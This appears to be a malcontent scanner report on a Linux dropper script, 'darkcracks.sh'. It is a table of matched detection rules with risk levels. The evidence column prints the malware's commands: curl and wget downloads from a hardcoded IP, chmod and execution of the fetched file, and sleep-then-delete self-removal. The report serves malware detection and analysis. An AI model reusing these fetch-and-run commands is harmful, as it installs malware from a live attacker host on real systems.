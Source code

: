 ## linux/2024.Darkcracks/darkcracks.sh [😈 CRITICAL]

|   RISK   |                                                                                 KEY                                                                                 |                          DESCRIPTION                           |                                                                                                                                                                                                                                                                                                                                                                                                                                                                      EVIDENCE                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|----------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CRITICAL | [c2/tool_transfer/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/tool_transfer/shell.yara#tool_chmod_relative_run_tiny)                     | fetch file, make it executable, and run it                     | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code)<br>[wget http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -O agr](https://github.com/search?q=wget+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-O+agr&type=code) |
| CRITICAL | [evasion/file/location/chdir_unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/file/location/chdir-unusual.yara#cd_val_obsessive)       | changes directory to multiple unusual locations                | [cd /;](https://github.com/search?q=cd+%2F%3B&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [evasion/self_deletion/run_sleep_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/self_deletion/run_sleep_delete.yara#run_sleep_delete) | run executable, sleep, and delete                              | [./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [net/download/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/download/fetch.yara#curl_download_ip)                                         | Invokes curl to download a file from an IP                     | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| HIGH     | [c2/addr/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/ip.yara#http_hardcoded_ip)                                                        | hardcoded IP address within a URL                              | [http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v)<br>[http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| MEDIUM   | [exec/shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/exec/shell/exec.yara#calls_shell)                                                    | executes shell                                                 | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| MEDIUM   | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file/file-make_executable.yara#chmod_executable_shell)                    | makes file executable                                          | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [fs/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/relative.yara#relative_path_val)                                            | references and possibly executes relative path                 | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [fs/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/root.yara#root_path_val)                                                        | path reference within /root                                    | [/root](https://github.com/search?q=%2Froot&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MEDIUM   | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission/permission-modify.yara#chmod)                                     | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| LOW      | [fs/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/var.yara#var_path)                                                               | path reference within /var                                     | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| LOW      | [net/url/embedded](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/url/embedded.yara#http_url)                                                     | contains embedded HTTP URLs                                    | [http://179.191.68.85](http://179.191.68.85)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| LOW      | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell)                                                        | changes working directory                                      | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |

